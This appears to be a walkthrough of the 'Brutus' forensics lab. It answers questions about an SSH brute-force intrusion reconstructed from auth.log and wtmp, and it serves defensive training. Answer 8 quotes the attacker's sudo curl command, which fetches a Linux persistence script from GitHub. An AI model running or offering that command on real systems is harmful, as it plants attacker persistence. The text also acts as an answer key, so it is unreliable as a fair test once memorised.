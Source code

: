 # Brutus - Very Easy

>Question 1:
>Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?

![image](https://github.com/user-attachments/assets/3727600e-fac8-476b-92bc-3833f5e04681)

>Question 2:
>The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?

![image](https://github.com/user-attachments/assets/4e71d268-39f2-44da-b437-1eb584e40bb6)

>Question 3:
>Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?

```bash
utmpdump wtmp
```

![image](https://github.com/user-attachments/assets/c4ee6b6b-b342-4f27-81ed-966f5bee7260)

>Question 4:
>SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

![image](https://github.com/user-attachments/assets/119f6ff5-2553-4eab-adb9-30f29aec1526)

>Question 5:
>The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

![image](https://github.com/user-attachments/assets/46691f82-3d17-43d2-a503-bb91918b7b23)

>Question 6:
>What is the MITRE ATT&CK sub-technique ID used for persistence?

![image](https://github.com/user-attachments/assets/8dfead5f-5a8d-499a-a226-dc8e52a632a5)
>Question 7:
>How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)

![image](https://github.com/user-attachments/assets/c6b67ec9-9b17-4b8d-a0ad-394f998baa87)

>Answer: 279 seconds

>Question 8:
>The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

![image](https://github.com/user-attachments/assets/da2ca8ff-a822-46a8-82fc-fa57e68febcf)

>Answer: /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

![image](https://github.com/user-attachments/assets/878fd8c0-ffe7-4bdb-84eb-0fdb997ea5fc)

